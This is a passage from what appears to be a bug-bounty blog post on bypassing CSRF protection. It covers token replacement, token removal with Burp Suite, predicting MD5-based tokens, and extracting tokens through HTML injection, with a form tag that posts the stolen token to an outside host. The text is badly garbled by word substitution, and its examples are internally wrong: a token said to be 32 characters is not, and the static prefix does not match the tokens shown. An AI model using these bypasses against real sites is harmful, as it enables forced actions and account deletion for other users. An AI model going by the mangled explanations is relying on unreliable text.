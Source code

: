     Go to the password change page and catch that request

    replace the CSRF token

### Supplanting worth of same length

Another method is that you track down the length of that token; for example, it is an alphanumeric badge of 32 characters under the variable authenticity_token, you supplant a similar variable with some other 32 character value.

For example the token is ud019eh10923213213123, you replace it with a badge of a similar worth.

### Removing the CSRF token from requests entirely

This strategy works typically on account of erasing functions where token isn't checked at all, giving the attacker an edge to erase the record of any client through CSRF.In any case, I have discovered that it might work on different functionalities also. It is straightforward, you block the request with burpsuite and eliminate the token from the, 40% of the applications I have tried were viewed as helpless against this method

### Decoding CSRF tokens

One more strategy to sidestep CSRF is to recognize the calculation of the CSRF token. As far as I can tell CSRF tokens are either MD5 or Base64 encoded qualities. You can interpret that worth and encode the following one in that calculation and utilize that token. For example "a0a080f42e6f13b3a2df133f073095dd" is MD5(122). You can correspondingly scramble the following worth MD5(123) to for CSRF token bypass.

### Extracting token via HTML injection

This procedure uses HTML injection vulnerability utilizing which an attacker can establish a logger to extract the CSRF token from that page and utilize that token. An attacker can establish a link, for example,

<form action=”http://hacksec.in/acquire_token.php”></textarea>

### Using only the static parts of the token

It is generally expected seen that the CSRF token is made out of two sections. A static part and a unique part. Consider two CSRF tokens hacksec742498h989889 and hacksec7424ashda099sss. For the most part, assuming you utilize the static piece of the token as hacksec77424 you can utilize that token

There are numerous alternative ways of bypassing CSRF protection, yet I have for the most part experienced these in my bug hunting vocation.

### Thanks for reading
